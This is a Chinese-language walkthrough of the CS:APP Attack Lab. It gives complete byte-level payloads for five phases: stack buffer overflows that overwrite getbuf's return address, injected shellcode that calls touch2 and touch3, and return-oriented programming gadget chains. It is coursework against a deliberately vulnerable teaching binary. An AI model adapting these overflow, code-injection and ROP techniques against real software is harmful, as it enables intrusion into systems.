





# Phase1

通过输入字符串的溢出来修改函数的返回地址, 从而当函数返回时转向执行别的程序.

``` assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret    
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

原本会从getbuf回到test, 但是只要在getbuf调用Gets时输入溢出的字符串, 可以修改返回地址转而指向touch1

getbuf执行到0x4017af时的栈帧如下



调用Gets函数时输入的字符串可以为如下:

``` 
aa aa aa aa aa aa aa aa
aa aa aa aa aa aa aa aa
aa aa aa aa aa aa aa aa
aa aa aa aa aa aa aa aa
aa aa aa aa aa aa aa aa
c0 17 40 00 00 00 00 00		# 此会修改返回地址
```

栈帧如下



这样, 当返回时就能转到`0x40c017`去执行了.


# Phase2

本部分需要注入代码

修改返回地址为栈部分, Gets输入的数据为汇编代码(用字节表示), 则返回后可以转到栈中执行代码.

``` assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret    
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

执行完0x4017a8, 此时`R[rsp]=0x5561dc78`. 由于没有栈随机等机制, 可以确定每次执行完0x4017a8时rsp的值都是一样的.



攻击代码如下:

``` assembly
mov $0x59b997fa, %edi	# 修改edi的值,edi保存第一个参数的值
pushq $0x4017ec			# 将touch2函数的首地址压栈
retq					# 从栈顶取出地址,返回
```

用objdump得到字节表示

``` assembly
attack_code.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf fa 97 b9 59       	mov    $0x59b997fa,%edi
   5:	68 ec 17 40 00       	push   $0x4017ec
   a:	c3                   	ret    
```

则注入的数据如下

``` 
0x5561dc78: bf fa 97 b9 59 68 ec 17 	
0x5561dc80: 40 00 c3 aa aa aa aa aa		# aa为占位符
0x5561dc88: aa aa aa aa aa aa aa aa
0x5561dc90: aa aa aa aa aa aa aa aa
0x5561dc98: aa aa aa aa aa aa aa aa
0x5561dca0: 78 dc 61 55 00 00 00 00		# 此八个字节将会覆盖返回地址
```


小结: 

1. 注入数据, 修改返回地址, 输入的数据是汇编指令
2. 返回到栈中, 根据输入的汇编指令执行
   汇编指令的工作: 修改R[edi]的值, 转到touch2执行


# Phase3

``` C++
1 /* Compare string to hex represention of unsigned value */
2 int hexmatch(unsigned val, char *sval)
3 {
4 	char cbuf[110];
5 	/* Make position of check string unpredictable */
6 	char *s = cbuf + random() % 100;
7 	sprintf(s, "%.8x", val);
8 	return strncmp(sval, s, 9) == 0;
9 }
7
10
11 void touch3(char *sval)
12 {
13 	vlevel = 3; /* Part of validation protocol */
14 	if (hexmatch(cookie, sval)) {
15 		printf("Touch3!: You called touch3(\"%s\")\n", sval);
16 		validate(3);
17 	} else {
18 		printf("Misfire: You called touch3(\"%s\")\n", sval);
19 		fail(3);
20 	}
21 		exit(0);
22 }

```

Phase3和Phase2类似, 但是Phase3传递的参数为一个字符串, 字符串需要存放在栈帧中. 存放位置不当会被hexmatch的栈帧覆盖.

`touch3`函数首地址为`0x4018fa`

执行完0x4017a8, 此时`R[rsp]=0x5561dc78`



攻击代码如下

``` assembly
mov $0x5561dca8, %edi	# 修改edi的值,edi保存字符串的地址
pushq $0x4018fa			# 将touch3函数的首地址压栈
retq					# 从栈顶取出地址,返回
```

``` assembly
attack_code.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:   bf a8 dc 61 55          mov    $0x5561dca8,%edi
   5:   68 fa 18 40 00          push   $0x4018fa
   a:   c3                      ret
```

输入的数据如下

```  shell
0x5561dc78: bf a8 dc 61 55 68 fa 18 	
0x5561dc80: 40 00 c3 aa aa aa aa aa		# aa为占位符
0x5561dc88: aa aa aa aa aa aa aa aa
0x5561dc90: aa aa aa aa aa aa aa aa
0x5561dc98: aa aa aa aa aa aa aa aa
0x5561dca0: 78 dc 61 55 00 00 00 00		# 此八个字节将会覆盖返回地址
0x5561dca8: 35 39 62 39 39 37 66 61		# cookie的字符串表示,由于在test的栈帧中,不会被覆盖
```


# Phase4

phase4和phase5都是return oriented programming

``` assembly
00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	ret    
  
# popq %rax   58
# nop         90
# ret         c3
# 0x4019cc~0x4019ce为一个gadget

00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	ret   

# mov %rax, %rdi 48 89 c7
# nop 90
# 0x4019c5~0x4019c9为一个gadget
```

输入如下

``` 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00		# 第一个gadget地址
fa 97 b9 59 00 00 00 00		# popq的数据
c5 19 40 00 00 00 00 00		# 第二个gadget的地址
ec 17 40 00 00 00 00 00		# touch2的地址
```

执行流程:

1. 取返回地址, 转到第一个gadget执行
2. 第一个gadget执行popq, 取出数据赋值给rax
3. 取返回地址, 转到第二个gadget执行, 将rax的值赋值给rdi
4. 取返回地址, 转到touch2执行


# Phase5

``` 
各个gadget的地址
mov %rax, %rdi	0x4019a2
mov %rsp, %rax	0x401a06
popq %rax		0x4019ab
mov %eax, %edx	0x4019dd
mov %eax, %edi	0x4019c6
mov %ecx, %esi	0x401a13
mov %esp, %eax	0x401a07

popq %rsp		0x4019dc
mov %eax, %edx

lea    (%rdi,%rsi,1),%rax 	0x4019d6

mov %edx, %ecx	0x401a69
```

用ROP实现touch3

实现要求:

1. 存储字符串到栈中, 避免不被覆盖
2. 将edi的值设置为正确地址

gadgets序列如下

``` assembly
# 汇编代码
popq %rax
mov %eax, %edx
mov %edx, %ecx
mov %ecx, %esi
mov %rsp, %rax
mov %rax, %rdi
lea (%rdi,%rsi,1),%rax
mov %rax, %rdi
```

输入的数据如下

``` 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00	# popq %rax
20 00 00 00 00 00 00 00	# popq的数据
dd 19 40 00 00 00 00 00	# mov %eax, %edx
69 1a 40 00 00 00 00 00	# mov %edx, %ecx
13 1a 40 00 00 00 00 00	# mov %ecx, %esi
06 1a 40 00 00 00 00 00	# mov %rsp, %rax
a2 19 40 00 00 00 00 00	# mov %rax, %rdi
d6 19 40 00 00 00 00 00	# lea (%rdi,%rsi,1),%rax
a2 19 40 00 00 00 00 00	# mov %rax, %rdi
fa 18 40 00 00 00 00 00	# touch3的地址
35 39 62 39 39 37 66 61	# 存储的字符串
```

栈帧如下

